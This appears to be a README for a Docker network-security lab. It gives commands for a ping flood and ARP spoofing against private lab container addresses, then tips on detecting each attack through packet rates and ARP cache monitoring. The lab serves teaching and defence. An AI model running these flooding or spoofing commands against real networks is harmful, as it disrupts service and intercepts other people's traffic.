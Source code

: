 
# Start
```
sudo docker compose run --build --rm attacker zsh
sudo docker compose run --build --rm monitor zsh
```
# Attack 
## Ping Flooding
```
sudo ping -f -s 65500 172.20.0.3  
```
## ARP Spoofing
```
arpspoof -i eth0 -t 172.20.0.3 172.20.0.2
WRONG
```
# Exit
```
sudo docker compose down
```

# Extra
```
sudo docker compose build  
sudo docker compose run --rm idle sh  
sudo docker network create --driver=bridge --subnet=172.20.0.0/16 br0  
sudo docker run --network=br0 --name=host -d python:3.8   
sudo docker cp ./send.py host:./  
sudo docker exec -it host sh  
sudo docker stop host  
sudo docker rm host
```

# To Verify Attacks
## Ping Flooding
Packet Count and Rate:

    Monitor the number of ICMP packets received over time. A sudden spike in packet count might indicate a flooding attack.
    Check the packet rate to identify if it exceeds normal thresholds.
## Arp Spoofing
Traffic Analysis:

    Analyze network traffic patterns. ARP spoofing may cause unusual or unexpected patterns, such as an increase in ARP requests and responses.
ARP Cache Monitoring:

    Monitor the ARP cache of devices on the network. Tools like arp -a on Windows or arp -n on Linux can display ARP cache entries. Look for unexpected or frequent changes.


